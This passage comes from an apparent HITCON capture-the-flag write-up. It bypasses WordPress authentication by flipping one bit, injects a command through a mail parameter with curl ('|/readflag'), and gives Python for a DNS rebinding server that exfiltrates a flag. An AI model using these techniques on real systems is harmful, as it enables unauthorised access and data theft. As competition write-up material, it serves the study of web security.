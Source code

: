 ```bash
$ rg 'wp_check_password'
user.php
174:    if ( ! wp_check_password( $password, $user->user_pass, $user->ID ) ) {
```

We can simply negate the logic: luckily fliping one bit can make `!` (0x21) become ` ` (space, 0x20).

Therefore, we flip the specific one bit:

- `/var/www/html/wp-includes/user.php`
- 5389th byte
- flip 0 bit (LSB)

And any password will lead to successfully login.

Finally, install the [WPTerm](https://wordpress.org/plugins/wpterm/) plugin from the market to achieve RCE.

The flag is `hitcon{if your solution is l33t, please share it!}`.


### W3rmup PHP

Find a Norway proxy (I simply googled `norway proxy` and try each proxy to see if it works or not.), then

```bash=
curl -x http://146.59.199.43:80 'http://18.181.228.241/?mail=a|/readflag||@a.bc'
```

You can see [author's twitter](https://twitter.com/orange_8361/status/1467495104240062466) to get more details of this.

### Vulpixelize

#### Solution 1: DNS rebinding

Since the server does not check the `Host:` header, we can perform DNS rebinding on `0.0.0.0` and our server IP to exfitrate the flag.

You can read more about DNS rebinding in bookgin's blog: 
[Abusing DNS: Browser-based port scanning and DNS rebinding](https://bookgin.tw/2019/01/05/abusing-dns-browser-based-port-scanning-and-dns-rebinding/).

Create a dns server that provides multiple answers:
```python=
#!/usr/bin/env python3
from dnslib.server import DNSServer, DNSLogger, DNSRecord, RR
import time
import sys

class TestResolver:
  def resolve(self,request,handler):
    q_name = str(request.q.get_qname())
    print('[<-] ' + q_name)
    reply = request.reply()
    reply.add_answer(*RR.fromZone(q_name + " 0 A 1.3.3.7")) # my server's ip
    reply.add_answer(*RR.fromZone(q_name + " 0 A 0.0.0.0"))
    return reply

logger = DNSLogger(prefix=False)
resolver = TestResolver()
server = DNSServer(resolver,port=53,address="0.0.0.0",logger=logger)
server.start_thread()
try:
  while True:
    time.sleep(1)
    sys.stderr.flush()
```